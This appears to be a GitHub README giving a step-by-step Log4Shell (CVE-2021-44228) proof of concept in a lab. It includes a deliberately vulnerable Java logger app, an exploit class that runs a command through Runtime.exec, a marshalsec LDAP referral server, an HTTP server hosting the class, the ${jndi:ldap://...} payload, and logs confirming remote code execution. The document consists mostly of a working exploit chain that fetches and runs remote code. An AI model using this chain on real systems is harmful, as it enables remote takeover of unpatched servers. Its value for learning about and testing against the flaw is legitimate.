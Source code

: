 Thanks for : 

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

https://github.com/mbechler/marshalsec

Okay flow is simple:

When we sent a input to any application, they logs some request for later analysis. apache log4j library used for logging these inputs. We will send a payload and execute codes from apache log4j library during logging

I tested on "apache-log4j-2.13.0"

first i will create a java vulnerable application. Basicly it gets an input and use that input inside of "logger.error" function

	package log4j;
	import java.util.*;  

	import org.apache.logging.log4j.LogManager;
	import org.apache.logging.log4j.Logger;

	public class main {

		private static final Logger logger = LogManager.getLogger(main.class);
		public static void main(String[] args) {
			Scanner sc= new Scanner(System.in); //System.in is a standard input stream  
			System.out.print("Enter a string: ");  
			String str= sc.nextLine();              //reads string  
			System.out.print("You have entered: "+str);
			logger.error(str);
		}

	}
	
i will craft a special "exploit.java" file for code execution, for test we will make payload to ping somewhere

	└─$ cat exploit.java
	public class exploit {
			static {
					try {
							Runtime.getRuntime().exec("cmd.exe /c ping 192.168.200.101");
					} catch (Exception e) {
							e.printStackTrace();
					}
			}
	}         


Start tcp dump and filter for icmp package

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                  
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

convert "exploit.java" file to "exploit.class" file

	javac exploit.java
	
Now start a simple http server inside of directory

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...


We will start a LDAP server, first java application will reach ldap server and this ldap server will redirect request to HTTP server (192.168.200.101)

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	
We will start vulnerable application and sent a payload like: (ip adress is ldap server ip)

	${jndi:ldap://192.168.200.101:1389/exploit}
	
run test application and give input (we will get and error message but ignore it)

	Enter a string: ${jndi:ldap://192.168.200.101:1389/exploit}
	You have entered: ${jndi:ldap://192.168.200.101:1389/exploit}
	23:40:46.982 [main] ERROR log4j.main - ${jndi:ldap://192.168.200.101:1389/exploit}

first check ldap server, it redirects to our HTTP server

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	Send LDAP reference result for exploit redirecting to http://192.168.200.101/exploit.class


On HTTP server you can see GET request for payload

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...
	192.168.200.1 - - [12/Dec/2021 15:40:47] "GET /exploit.class HTTP/1.1" 200 -

Check tcpdump and see if there is any ping request

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
	15:43:24.801831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 256, length 40
	15:43:24.801917 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 256, length 40
	15:43:25.811859 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 257, length 40
	15:43:25.811904 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 257, length 40
	15:43:26.824831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 258, length 40
	15:43:26.824874 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 258, length 40
	15:43:27.836873 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 259, length 40
	15:43:27.836920 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 259, length 40
